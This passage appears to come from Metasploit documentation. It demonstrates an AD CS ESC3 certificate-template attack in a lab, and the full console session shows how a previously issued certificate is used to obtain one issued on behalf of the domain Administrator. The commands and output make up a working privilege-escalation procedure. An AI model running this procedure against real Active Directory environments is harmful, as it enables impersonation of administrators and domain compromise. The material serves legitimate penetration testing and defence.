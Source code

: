 Next, we'll try use this certificate to request another certificate on behalf of a different user. For this stage we need to specify another certificate that is vulnerable to the ESC3_TEMPLATE_2 attack vector that we are able to enroll in. We will use the `User` template for this:

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
PFX => /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template1                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
